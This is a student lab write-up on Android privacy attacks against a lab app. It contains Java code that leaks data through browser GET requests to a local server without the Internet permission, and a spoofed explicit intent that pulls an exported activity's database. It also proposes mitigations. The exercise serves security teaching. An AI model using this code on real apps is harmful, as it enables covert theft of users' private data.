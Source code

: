 # 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?key1=secret1&key2=secret2`.

By default, without any permissions it seems like there are not many
ways to get informations about the user. However, using some public
Android APIs or Linux files, a lot of informations can be extracted. For
example, the list of all installed packages is public, and while this
seems harmless it can give hints about the user's sexuality (if Grindr
or other specific dating apps are installed), its health if some diabete
or weight loss apps are found, etc. Some informations can also be found
in Linux files, like the CPU model or the amount of RAM to get the
device model, or some network informations. Some of these files and
directories are `/sys/class/net/`, `/proc/net/tpc`, `/proc/net/arp`,
`/proc/cpuinfo`, `/proc/meminfo`, etc. These files are accessible by
anyone due to the nature of Android, being based on a Linux kernel.
Finally, commands like `ps` can expose running tasks. The audio manager
can also leak some critical information with the right method, which is
the position and the driving route of the user. Finally, the data usage
of apps can also be used, which can hint with some external informations
about the user profile on a social network like Facebook, where the
frequency (or lack) of published posts can show some user pattern.

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop all applications are
unrestricted and could access all user files with r/w permissions, on
android even a vulnerable app is limited in its action. it also hints on
illegitimate apps; for examle, the flashlight app shouldn't require
microphone access. The goal of these permissions is to add boundaries to
apps, which greatly reduce the risks to the user.

Permissions are defined in a special file, the Android manifest of the
app. This file will describe all meta-informations about the app, like
which activities are public, what resources the app should use for its
icon, and more important here what permissions are used. In the
following example, an app is requiring the internet permission. Some
permissions aren't necessarily granted though, like the microphone one.
While it needs to be declared, the user can still decide to disable it.

```xml
<uses-permission android:name="android.permission.INTERNET" />
```

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

The code used is the following one to exfiltrate the data:

```java
// This will be our URL like http://10.0.2.2:3001/?key1=secret1&key2=secret2
StringBuilder evilRequest = new StringBuilder("/?");
for (Item item : mItemsData) {
	// Add each item to the exfiltration URL
	evilRequest
		.append(Uri.encode(item.getTitle()))
		.append("=")
		.append(Uri.encode(item.getInfo()))
		.append("&");
}
// Create the intent to open the browser
Intent intent = new Intent(
	Intent.ACTION_VIEW,
	Uri.parse(url + evilRequest)
);
if (intent.resolveActivity(getPackageManager()) != null) {
	// Start the intent if an an app is able to handle it
	startActivity(intent);
}
```

The database's content looks like, for example:

![Database content](./assets/database_content_p1.png)

![Database element content](./assets/database_element_content_p1.png)

And the server receives:

![Server](./assets/server_p1.png)

# 2 - Malicious intents

In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The malicious intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
	"lbs.lab.maclocation", // Target package
	"lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

Once the data retrieved, we need to deserialize it by creating our own
implementation of `lbs.lab.maclocation.Item`, and then exfiltrate it
like we did previously in the first part. To find which class to
recreate, we need to look at the logs when trying to deserialize the
object. We get a `ClassNotFoundException` that will then hint us on
which class isn't found, by logging something like `the class
lbs.lab.maclocation.Item cannot be found`. We now know which class we
need to write.

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed in order to fix this
vulnerability. Instead of checking the value of `getShortClassName()` to
compare the activity names, it should use `getClassName()`, that will
differentiate `lbs.lab.maclocation.MainActivity` and
`lbs.lab.macintent.MainActivity`.

Moreover, in the Android manifest, `DatabaseActivity` is wrongly marked
as `exported`, which makes it accessible to any third-party app through
an intent.

# 3 - Protections and mitigations

There could be several ways to protect against these threats, on several
levels.

On a more general note though, explicit intents should be avoided and
should even maybe be completely discarded. Apps should pass through an
app chooser and not hardwire the target in the source code, which is
error prone and can lead to several attacks like we saw previously.

For both parts, a more general solution could be the transition to a
capability-based kernel, where the capability / key is an unforgeable
token of authority refering to a list of rights and permissions. These
confused deputy problems would then be no more, sicne if an app A calls
an app B, B would use A's token and then the operation would be refused
at the kernel level, while currently A uses B's identity to do some
actions.

## 3.1 - Against permission escape: part 1

First, the Android API could implement permissions per intent, not per
app. If an app A calls an app B, and B has the internet permission but
not A, A is still able to access internet through B. However, a defense
would be for the intent from A to B to require some kind of permission,
which would force A to declare the internet permission. This would still
be pretty challenging though, as we need to be sure which permissions
are used, otherwise if B suddently adds the camera permission it would
break A even though it doesn't use it.

The solution above could also be completed using a stacktrace of chained
events, to avoid the confused app B to send a third intent that will
look legitimate for the third (or same) app.

Some Linux files that currently are public shouldn't be anymore on
Android, and should be then restricted.

It could be argued that the list of all applications could also be set
to private at the Android API level, although it would definitely break
some legitimate use case since this isn't a niche feature. The ability
to execute system commands like `ls` or `cat` through
`Runtime.getRuntime().exec` should however be completely removed, as it
is a pretty big possible vulnerability vector.

## 3.2 - Against data leak: part 2

A way to avoid data leak would be to somehow track the data from B to A.
If the data of B is leaked back to A without a kind of approval, then
the data would be made unusable by the system. This is still a rough
idea though, as this would probably lead to many challenge to face.

Maybe we could also rank the data importance, like the information flow
security lectures we had. A high (important) app would only be able to
share its data to other high apps, and low apps would not be able to
fetch this high data. Or, to continue with data tracking, low apps could
be allowed as long as there isn't an information flow from high data to
low data, ie the data use would be severely restricted. Some tools exist
in "regular" Java, like Jif, or in other languages (JSFlow, LIO, etc),
and some are specially for Android, like TaintDroid, an architecture
within Android working alongside the Dalvik virtual machine to implement
a "taint map" at the memory level.

Related to this suggestion, critical informations related to banking or
health for example should probably be locked behind a password, such
that any legitimate intent would have this token in memory while
external explicit intents wouldn't be able to unlock the data. It goes
without saying that critical activities should also not be publicly
exposed in the Android manifest. This is technically a recommandation,
and cannot realistically be made mandatory by the platform, since it
would be pretty hard to differentiate critical and legit information
programmatically.

Intents could also use a kind of signature, to avoid spoofing its
origin. This is already something that can - and should - be done, but
the Android kernel should go even further. What we saw earlier is that
to deserialize the data fetched we needed to create our own
implementation of the data object. This shouldn't be allowed, and a
serialized object should only be deserializable by the implementation
in its own app, not by any third-party app, even if the implementation
is the same.
